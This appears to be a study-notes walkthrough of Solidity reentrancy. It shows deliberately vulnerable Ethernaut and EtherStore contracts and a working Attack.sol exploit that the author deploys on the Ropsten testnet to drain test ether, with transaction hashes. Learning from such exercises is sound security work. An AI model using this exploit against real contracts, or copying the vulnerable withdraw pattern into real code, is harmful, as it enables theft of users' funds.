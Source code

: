 # Examples

## Ethernaut

```javascript
pragma solidity ^0.4.18;
contract Reentrance {
  mapping(address => uint) public balances;
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
  function() public payable {}
}
```

This Ethernaut level exploits this reentrancy issue and the following, additional factors that led to the [DAO hack](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/):\
• Fallback functions [can be called by anyone & execute malicious code](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)\
• Malicious external contracts [can abuse withdrawals](https://medium.com/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)

## EtherStore

{% code title="EtherStore.sol" %}
```javascript
pragma solidity 0.4.18;
contract EtherStore {
    uint256 public withdrawalLimit = 0.1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```
{% endcode %}

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:\
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From (Metamask):\
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`\
To (contract):\
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

{% code title="Attack.sol" %}
```javascript
pragma solidity 0.4.18;

contract EtherStore {
        function depositFunds() public payable {}
        function withdrawFunds(uint256) public {}
}

contract Attack {
    //EtherStore public etherStore;
    EtherStore public etherStore;
        function Attack(address _t) public {
        etherStore = EtherStore(_t);
    }
  function attackEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 0.1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(0.1 ether)();
      // start the magic
      etherStore.withdrawFunds(0.1 ether);
  }
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 0.1 ether) {
          etherStore.withdrawFunds(0.1 ether);
      }
  }
}
```
{% endcode %}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)\
From:\
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`\
To:\
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask (pretend this is some other user/victim) to EtherStore (to steal later):\
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)\
[![images/23-1.png](<../../.gitbook/assets/23-1 (1).png>)](./)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](<../../.gitbook/assets/23-2 (1).png>)](./)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore() function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:\
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`\
To:\
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`\
Tx:\
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](<../../.gitbook/assets/23-3 (1).png>)](./)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](<../../.gitbook/assets/23-4 (1).png>)](./)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](<../../.gitbook/assets/23-5 (1).png>)](./)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](<../../.gitbook/assets/23-6 (1).png>)](./)

Calling `CollectEther()` Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)\
[![images/23-7.png](<../../.gitbook/assets/23-7 (1).png>)](./)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](<../../.gitbook/assets/23-8 (1).png>)](./)
